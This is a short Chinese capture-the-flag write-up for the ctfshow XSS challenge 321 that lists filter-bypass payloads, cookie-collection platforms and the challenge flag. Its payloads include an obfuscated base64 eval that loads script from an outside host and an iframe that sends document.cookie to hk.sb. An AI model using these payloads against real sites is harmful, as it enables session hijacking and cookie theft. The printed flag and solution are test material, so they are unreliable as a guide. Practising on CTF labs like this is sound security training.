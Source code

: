 # ctfshow-xss321



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```html
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img,空格

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>

把空格用tab键替换就可以
    
<input	onfocus=eval(atob(this.id))	id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IveTd4eCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs=	autofocus>

<iframe	onload="window.open('https://hk.sb/y7xx'+document.cookie)"></iframe>

ctfshow{35666868-910a-4b76-8bed-74f2ddc77909}


```

